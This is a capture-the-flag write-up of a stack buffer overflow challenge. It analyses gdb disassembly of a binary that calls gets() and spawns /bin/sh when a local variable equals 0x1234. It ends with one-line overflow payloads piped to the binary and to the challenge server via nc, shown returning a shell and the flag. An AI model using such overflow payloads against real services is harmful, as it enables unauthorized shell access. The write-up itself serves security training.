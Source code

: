 # Overwrite_Me

> Pwn | 100 points
-------------------------

## Problem Statement
> Do you have what it takes to overwrite me??  
> Connect using nc  13.233.99.37 1009  
> [File](./chall)

## Analysis

```gdb
Dump of assembler code for function main:
   0x080491a2 <+0>:	lea    ecx,[esp+0x4]
   0x080491a6 <+4>:	and    esp,0xfffffff0
   0x080491a9 <+7>:	push   DWORD PTR [ecx-0x4]
   0x080491ac <+10>:	push   ebp
   0x080491ad <+11>:	mov    ebp,esp
   0x080491af <+13>:	push   ebx
   0x080491b0 <+14>:	push   ecx
   0x080491b1 <+15>:	sub    esp,0x30
   0x080491b4 <+18>:	call   0x80490e0 <__x86.get_pc_thunk.bx>
   0x080491b9 <+23>:	add    ebx,0x2e47
   0x080491bf <+29>:	mov    eax,DWORD PTR [ebx-0x8]
   0x080491c5 <+35>:	mov    eax,DWORD PTR [eax]
   0x080491c7 <+37>:	push   0x0
   0x080491c9 <+39>:	push   0x2
   0x080491cb <+41>:	push   0x0
   0x080491cd <+43>:	push   eax
   0x080491ce <+44>:	call   0x8049080 <setvbuf@plt>
   0x080491d3 <+49>:	add    esp,0x10
   0x080491d6 <+52>:	mov    eax,DWORD PTR [ebx-0x4]
   0x080491dc <+58>:	mov    eax,DWORD PTR [eax]
   0x080491de <+60>:	push   0x0
   0x080491e0 <+62>:	push   0x2
   0x080491e2 <+64>:	push   0x0
   0x080491e4 <+66>:	push   eax
   0x080491e5 <+67>:	call   0x8049080 <setvbuf@plt>
   0x080491ea <+72>:	add    esp,0x10
   0x080491ed <+75>:	mov    DWORD PTR [ebp-0xc],0x0
   0x080491f4 <+82>:	sub    esp,0xc
   0x080491f7 <+85>:	lea    eax,[ebp-0x2c]
   0x080491fa <+88>:	push   eax
   0x080491fb <+89>:	call   0x8049030 <gets@plt>
   0x08049200 <+94>:	add    esp,0x10
   0x08049203 <+97>:	cmp    DWORD PTR [ebp-0xc],0x1234
   0x0804920a <+104>:	jne    0x804922c <main+138>
   0x0804920c <+106>:	sub    esp,0x4
   0x0804920f <+109>:	push   0x0
   0x08049211 <+111>:	push   0x0
   0x08049213 <+113>:	lea    eax,[ebx-0x1ff8]
   0x08049219 <+119>:	push   eax
   0x0804921a <+120>:	call   0x8049070 <execve@plt>
   0x0804921f <+125>:	add    esp,0x10
   0x08049222 <+128>:	sub    esp,0xc
   0x08049225 <+131>:	push   0x0
   0x08049227 <+133>:	call   0x8049050 <exit@plt>
   0x0804922c <+138>:	sub    esp,0xc
   0x0804922f <+141>:	lea    eax,[ebx-0x1ff0]
   0x08049235 <+147>:	push   eax
   0x08049236 <+148>:	call   0x8049040 <puts@plt>
   0x0804923b <+153>:	add    esp,0x10
   0x0804923e <+156>:	mov    eax,0x0
   0x08049243 <+161>:	lea    esp,[ebp-0x8]
   0x08049246 <+164>:	pop    ecx
   0x08049247 <+165>:	pop    ebx
   0x08049248 <+166>:	pop    ebp
   0x08049249 <+167>:	lea    esp,[ecx-0x4]
   0x0804924c <+170>:	ret
End of assembler dump.
```


* The disassembly looks very complicated but we are only intrested in the following part
     >```gdb
     >   0x080491f7 <+85>:	lea    eax,[ebp-0x2c]
     >   0x080491fa <+88>:	push   eax
     >   0x080491fb <+89>:	call   0x8049030 <gets@plt>
     >   0x08049200 <+94>:	add    esp,0x10
     >   0x08049203 <+97>:	cmp    DWORD PTR [ebp-0xc],0x1234
     >   0x0804920a <+104>:	jne    0x804922c <main+138>
     >   0x0804920c <+106>:	sub    esp,0x4
     >   0x0804920f <+109>:	push   0x0
     >   0x08049211 <+111>:	push   0x0
     >   0x08049213 <+113>:	lea    eax,[ebx-0x1ff8]
     >   0x08049219 <+119>:	push   eax
     >   0x0804921a <+120>:	call   0x8049070 <execve@plt>
     > ```

* Now let's try to understand what's hapening here
  >```gdb
     >   0x080491f7 <+85>:	lea    eax,[ebp-0x2c]
     >   0x080491fa <+88>:	push   eax
     >   0x080491fb <+89>:	call   0x8049030 <gets@plt>
  >```
  > Gets takes input and starts writing at address [ebp-0x2c]

    >```gdb
    >   0x08049203 <+97>:	cmp    DWORD PTR [ebp-0xc],0x1234
    >   0x0804920a <+104>:	jne    0x804922c <main+138>
    >```
    > Now value at address [ebp-0xc] is compared with 0x1234 and if they aren't equal
    > program exits ( jumps to <main+138> )

    >```gdb
    >   0x08049213 <+113>:	lea    eax,[ebx-0x1ff8]
    >   0x08049219 <+119>:	push   eax
    >   0x0804921a <+120>:	call   0x8049070 <execve@plt>
    >```
    > If the values are equal the program the program copies a string from somewher
    > [ebx-0x1ff8] in the memory and executes that string

* Hmmm.... Lets see what the program is trying to executes
    > ```gdb
    > gdb$ x/s $ebx-0x1ff8
    > 0x804a008:	"/bin/sh"
    > gdb$
    > ```
    > So the program executes a shell if  the conditions  are met



## Solution

So far we know that if we can overwrite the mempry address [ebp-0x0xc] with 0x1234
we will get a shell.

The problem is we have no direct way of controling [ebp-0x0xc]

* Let's  take a look at the stack
    >```
    >Stack map
    >[ebp-0x30]    [ -- -- -- -- ]
    >[ebp-0x2c]    [ -- -- -- -- ]
    >[ebp-0x28]    [ -- -- -- -- ]
    >[ebp-0x24]    [ -- -- -- -- ]
    >[ebp-0x20]    [ -- -- -- -- ]
    >[ebp-0x1c]    [ -- -- -- -- ]
    >[ebp-0x18]    [ -- -- -- -- ]
    >[ebp-0x14]    [ -- -- -- -- ]
    >[ebp-0x10]    [ -- -- -- -- ]
    >[ebp-0xc ]    [ -- -- -- -- ]
    >[ebp-0x8 ]    [ -- -- -- -- ]
    >[ebp-0x4 ]    [ -- -- -- -- ]
    >[  bp    ]    [ -- -- -- -- ]
    >[   ret  ]    [ -- -- -- -- ]
    >```
    >   Now we cotrol [ebp-0x2c] through gets


* after writing 32 characters the buffer gets full and anything that we write further
will overwrite [ebp-0xc]
* lets see how the stack looks if we supply 32 A's and 4 B's as input

    >```
    >Stack map
    >[ebp-0x30]    [ 41 41 41 41 ]
    >[ebp-0x2c]    [ 41 41 41 41 ]
    >[ebp-0x28]    [ 41 41 41 41 ]
    >[ebp-0x24]    [ 41 41 41 41 ]
    >[ebp-0x20]    [ 41 41 41 41 ]
    >[ebp-0x1c]    [ 41 41 41 41 ]
    >[ebp-0x18]    [ 41 41 41 41 ]
    >[ebp-0x14]    [ 41 41 41 41 ]
    >[ebp-0x10]    [ 41 41 41 41 ]
    >[ebp-0xc ]    [ 42 42 42 42 ]
    >[ebp-0x8 ]    [ -- -- -- -- ]
    >[ebp-0x4 ]    [ -- -- -- -- ]
    >[   bp   ]    [ -- -- -- -- ]
    >[   ret  ]    [ -- -- -- -- ]
    >```
    >  we see [ebp-0xc] is overwritten  with all those B characters

## Exploit

The following exploits will give the shell
* On local machine
    >   ```shell
    >   $ (python -c "print 'A' * 32 + '\x12\x34'[::-1];cat) " | ./chall
    >   ```
* For remote server
    >   ```shell
    >   $ (python -c "print 'A' * 32 + '\x12\x34'[::-1] ";cat) | nc 13.233.99.37 1009
    >ls
    >chall
    >flag
    >run.sh
    >cat flag
    >inctf{Ov3Wr1t3_15_FUN}
    >   ```

## Flag
`inctf{Ov3Wr1t3_15_FUN}`




